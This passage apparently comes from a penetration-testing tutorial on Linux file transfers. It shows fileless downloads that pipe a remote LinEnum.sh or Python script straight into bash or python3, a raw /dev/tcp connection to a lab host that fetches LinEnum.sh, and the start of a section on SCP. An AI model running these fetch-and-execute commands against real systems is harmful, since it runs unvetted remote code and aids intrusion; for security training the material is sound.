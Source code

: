 Let's take the `cURL` command we used, and instead of downloading LinEnum.sh, let's execute it directly using a pipe.

```bash
curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
```

### **Fileless Download with wget**

Similarly, we can download a Python script file from a web server and pipe it into the Python binary. Let's do that, this time using `wget`.

```bash
wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3

Hello World!
```

## Download with Bash (/dev/tcp)

There may also be situations where none of the well-known file transfer tools are available. As long as Bash version 2.04 or greater is installed (compiled with --enable-net-redirections), the built-in /dev/TCP device file can be used for simple file downloads.

### **Connect to the Target Webserver**

```bash
exec 3<>/dev/tcp/10.10.10.32/80
```

### **HTTP GET Request**

```bash
echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3
```

### **Print the Response**

```bash
cat <&3


```

<details><summary>Explanation of 3 above commands</summary></details>

## SSH Downloads

SSH (or Secure Shell) is a protocol that allows secure access to remote computers. SSH implementation comes with an `SCP` utility for remote file transfer that, by default, uses the SSH protocol.

`SCP` (secure copy) is a command-line utility that allows you to copy files and directories between two hosts securely. We can copy our files from local to remote servers and from remote servers to our local machine.
